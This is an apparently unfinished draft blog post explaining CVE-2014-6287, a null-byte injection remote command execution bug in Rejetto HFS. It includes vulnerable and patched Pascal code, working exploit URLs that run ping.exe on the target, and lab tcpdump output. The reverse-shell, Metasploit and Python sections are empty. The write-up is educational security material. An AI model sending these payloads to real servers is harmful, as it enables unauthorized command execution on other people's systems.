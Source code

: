 ```yaml
---
layout: post
title:  "Rejetto HFS Remote Command Execution CVE2014-6287"
categories: [Technical]
tags: [command execution, exploit, python]
draft: true
---
```


### Introduction

On September 12th 2014, a vulnerability found within HttpFileServer was reported that allowed attackers to remotely execute commands on the affected device, this was caused due to poor validation on user input, which would allow an attacker to execute arbitary commands. The bug was reported in the `findMacroMarker()` function in the `parserLib.pas` file.

### So, How does it work?

By performing whats known as [NullByte Injection](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection) we can bypass the sanity checking written in that function thus allowing us to script over HFS without any restrictions in place. This is because the RegEx does not correclty handle the nullbyte characters which is what allows us to escape the filter. If you want to know more about Null Byte Injection you can also read my [blog post](https://linxz.co.uk/attacks/2018/11/20/NullByte-Injection.html) on it.

If we send a nullbyte as a paramter when performing a search on the affected device then we can escape the filter of forbidden characters thus allowing us to execute arbitary commands on the device. As an example, take this request here `http://localhost:80/search=%00{.exec|+C:\Windows\system32\ping.exe+10.10.14.11}` as you can see we've got our nullbyte which allows us to bypass the sanity checking, then we're sending a command to tell the machine to run `ping.exe` and ping that IP address. You can learn more about [HFS Scripting Here.](http://www.rejetto.com/wiki/index.php/HFS:_scripting_commands). Now that we know we can execute commands remotely, we can now leverage this in order to setup a reverse shell to the affected device thus giving us access to it with the same privilege level as the account the software is running on.

### Code Review

There's not a massivee amount of code for us to review here however, because HFS is an open-source program we can look at both the affected & fixed code, which is nice! So, let's first look at the vulnerable function within `parserLib.pas`.

```Pascal
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

As you can see, the vulnerable code is incredibly small, the only issue is that it does not correctly handle the nullbyte we send and thus that gives us the ability to script over HFS with no limitations. If we look in the `scriptLib.pas` file we can see where this function is called.

```Pascal
function noMacrosAllowed(s:string):string;
// prevent hack attempts
var
  i: integer;
begin
i:=1;
  repeat
  i:=findMacroMarker(s, i);
  if i = 0 then break;
  replace(s, '&#'+intToStr(charToUnicode(s[i]))+';', i,i);
  until false;
result:=s;
end; // noMacrosAllowed
```

As you can see, the function in which this function is called is actually meant to stop people passing macros into a URL. However, there is no handling for a null byte which as we mentioned, that's where the problem lies. In order to fix this issue a function called `enforceNUL(s)` was added.

```Pascal
function noMacrosAllowed(s:string):string;
// prevent hack attempts
var
  i: integer;
begin
i:=1;
enforceNUL(s);
  repeat
  i:=findMacroMarker(s, i);
  if i = 0 then break;
  replace(s, '&#'+intToStr(charToUnicode(s[i]))+';', i,i);
  until false;
result:=s;
end; // noMacrosAllowed
```

As you can see, before it executes `findMacroMarker` it will first run this `enforceNUL` function, let's take a look at what this function does, which is defined in `utillib.pas`.

```Pascal
procedure enforceNUL(var s:string);
begin
if s>'' then
  setLength(s, strLen(@s[1]))
end; // enforceNUL
```

Now, my Pascal knowledge isn't the best however as far as I can tell this function basically removes the first character so that you cannot inject a `%00` into the URL, I could be wrong so if anyone knows some Pascal and would like to help me understand this better please feel free to contact me on Twitter @LinxzSec or @Linxz on Discord, thanks! You can obtain all of the source code for HFS from Source Forge.

### Exploit

Usually I test things against Metasploitable 2 however this vulnerability is not present in MS2 and thus in the below examples I am testing it against my own machine. I'm running HFS 2.3b on my Windows box whilst exploiting it using my Kali VM. I will show you how to execute this exploit both manaully and with Metasploit.

Firstly, let's test that we're running an affected version (although in this case we know we are) we will start out with sending a simple ping in a command back to our device whilst simultaneously running TCPDump on our attacking machine. Start by running HFS on your machine, make sure you can connect to it via the browser.

![Connection](LinxzFade.github.io/assets/images/2018-11-20/2018-11-20.PNG)

Now that we can see our device as being up we can move into the actual exploitation of the device, we will first look at exploiting this manually.

#### Manual Exploitation

Before we begin to exploit this we're going to make sure that our device is running the vulnerable version, even though we know it is and we can confirm with `nmap ip -sV` we're just going to do a quick test, we will first try to get the device to execute a ping back to our attacking machine.

First, setup a tcpdump using `tcpdump -i eth0 ICMP` leave that running and capturing packets in a terminal, then browse to your webserver with the following URL `http://192.168.139.1/?search=%00{.exec|C:\Windows\System32\ping.exe+192.168.139.138.}` obviously you will need to replace the IP addresses else this won't work, when you run this what you should see is your tcpdump picking up packets, you will also see a terminal open on the Windows device if you're using it (for example in my case I have three screens and I can see the terminal open when I press enter in my Kali VM). Now, what we did here was verify that the version is affected by sending a payload to the device, in this case we just told it to execute ping.exe and then ping the ip address `192.168.139.138` which is the address of my Kali VM. It's worth noting that it seems you *must* use a full stop at the end of your command else the server will not execute it, at least that's in my experience.

```bash
root@LinxzSecKali:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
12:11:59.722051 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 33, length 40
12:11:59.722080 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 33, length 40
12:11:59.727859 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 34, length 40
12:11:59.727886 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 34, length 40
12:11:59.731815 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 35, length 40
12:11:59.731918 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 35, length 40
```

Next we need to exploit this vulnerability in order to get a reverse shell, we know the RCE is there so let's figure out how we can leverage that to get full access to the account that's running the service.

#### Metasploit Exploitation

### Python Exploitation

### References

[SecLists Bug Tracker](https://seclists.org/bugtraq/2014/Sep/85)

[HFS Scripting](http://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)

[NullByte Injection](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection)

[HFS Patchnotes](http://www.rejetto.com/hfs/?f=wn)

[HFS 2.3C](https://sourceforge.net/projects/hfs/files/HFS/2.3c/)

[Exploit DB](https://www.exploit-db.com/exploits/34668/)

[Rapid7 Module](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)

[Metasploit Module](https://www.exploit-db.com/exploits/34926/)